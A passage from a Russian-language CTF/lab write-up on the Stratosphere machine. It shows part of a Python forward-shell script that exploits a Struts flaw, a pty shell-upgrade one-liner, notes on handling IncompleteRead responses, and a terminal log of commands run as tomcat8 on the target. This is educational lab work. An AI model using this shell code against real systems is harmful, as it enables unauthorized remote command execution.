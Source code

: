 ```python
	def upgradeShell(self):
		upgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
		self.writeCmd(upgradeShell)


prompt = 'stratosphere> '
S = Stratosphere()

while True:
	cmd = input(prompt)
	if cmd == 'upgrade':
		prompt = ''
		S.upgradeShell()
	else:
		S.writeCmd(cmd)
```

Подробнее об этом способе можно узнать из [туториала](https://youtu.be/k6ri-LFWEj4?t=15m35s "VulnHub - Sokar - YouTube") прохождения машины с VulnHub'а от IppSec'а. От себя добавлю, что в нашем случае представляется невозможным использование библиотеки `requests` для Python в силу особенностей используемой уязвимости: `requests` не умеет по-человечески работать с возвращаемым уязвимым сервером **IncompleteRead**, возбуждая исключение `requests.exceptions.ChunkedEncodingError`; если же использовать встроенные средства языка, то этот же ответ с IncompleteRead без проблем перехватывается исключением `http.client.IncompleteRead` и далее успешно обрабатывается как `e.partial`. Подробнее об этой проблеме [здесь](https://github.com/mazen160/struts-pwn/issues/8 "Issue with requests partial read · Issue #8 · mazen160/struts-pwn").

Итак, время полевых испытаний:
```text
root@kali:~# python3 StratosphereFwdShell.py
[*] Session ID: 42942
[*] Setting up fifo shell on target
[*] Setting up read thread
stratosphere> pwd
/var/lib/tomcat8

stratosphere> whoami
tomcat8

stratosphere> id
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

stratosphere> uname -a
Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64 GNU/Linux

stratosphere> ls -la
total 24
drwxr-xr-x  5 root    root    4096 Sep  4 09:32 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Sep  4 09:32 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

stratosphere> file *
conf:       symbolic link to /etc/tomcat8
db_connect: ASCII text
lib:        directory
logs:       symbolic link to ../../log/tomcat8
policy:     directory
webapps:    directory
```

[//]: # (2019-09-17)
[//]: # ({{ "/img/xakep-badge.png" | relative_url }})